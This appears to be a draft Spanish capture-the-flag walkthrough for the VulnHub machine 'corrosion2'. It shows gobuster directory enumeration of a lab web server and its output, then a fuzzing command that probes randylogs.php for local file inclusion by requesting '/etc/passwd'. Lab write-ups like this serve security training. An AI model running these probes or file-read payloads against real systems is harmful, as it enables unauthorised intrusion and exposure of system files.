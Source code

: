 Una configurado se puede ingresar por el explorador usando directamente la `192.168.210.129`, una vez validado que existe el servidor web, podemos hacer enumeracion con gobuster utilizando las comunicación de socks5, pasando por el proxy.
```java
┌──(root㉿kali)-[/home/…/CTF/vulnhub/corrosion2/nmap]
└─# gobuster dir -u http://192.168.210.129 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -t 20 --proxy socks5://127.0.0.1:1080
===============================================================
Gobuster v3.4
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.210.129
[+] Method:                  GET
[+] Threads:                 20
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt
[+] Negative Status codes:   404
[+] Proxy:                   socks5://127.0.0.1:1080
[+] User Agent:              gobuster/3.4
[+] Timeout:                 10s
===============================================================
2023/01/20 13:39:14 Starting gobuster in directory enumeration mode
===============================================================
/tasks                (Status: 301) [Size: 318] [--> http://192.168.210.129/tasks/]
/blog-post            (Status: 301) [Size: 322] [--> http://192.168.210.129/blog-post/]
```
Verificar la URL

http://192.168.210.129/tasks/tasks_todo.txt

y poner imagen

Ver laURL
http://192.168.210.129/blog-post

y poner imagen

Enumeracio de blog-post
```java
┌──(root㉿kali)-[/home/…/CTF/vulnhub/corrosion2/nmap]
└─# gobuster dir -u http://192.168.210.129/blog-post -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -t 20 --proxy socks5://127.0.0.1:1080
===============================================================
Gobuster v3.4
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.210.129/blog-post
[+] Method:                  GET
[+] Threads:                 20
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt
[+] Negative Status codes:   404
[+] Proxy:                   socks5://127.0.0.1:1080
[+] User Agent:              gobuster/3.4
[+] Timeout:                 10s
===============================================================
2023/01/20 13:45:35 Starting gobuster in directory enumeration mode
===============================================================
/archives             (Status: 301) [Size: 331] [--> http://192.168.210.129/blog-post/archives/]
/uploads              (Status: 301) [Size: 330] [--> http://192.168.210.129/blog-post/uploads/]
```
Fuzzing con parametros usando gobuster
```java
┌──(root㉿kali)-[/home/…/CTF/vulnhub/corrosion2/nmap]
└─# gobuster fuzz -u http://192.168.210.129/blog-post/archives/randylogs.php?FUZZ=/etc/passwd -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt -t 20 --proxy socks5://127.0.0.1:1080 | grep -v "Length=0"
===============================================================
Gobuster v3.4
```